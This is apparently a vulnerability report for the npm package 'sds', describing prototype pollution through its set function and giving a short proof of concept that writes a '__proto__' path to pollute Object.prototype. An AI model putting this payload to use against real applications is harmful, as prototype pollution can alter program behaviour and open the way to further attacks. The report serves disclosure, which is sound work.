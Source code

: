 # Overview

`sds` is a structured data search package this package are vulnerable to Prototype Pollution.

The library could be tricked into adding or modifying properties of the `Object.prototype` by abusing the `set` function located in `js/set.js`.

# Proof of Concept

```
var root = require("sds");
var payload = "__proto__.huntr";
root.set({}, payload, true);
console.log({}.huntr);
```
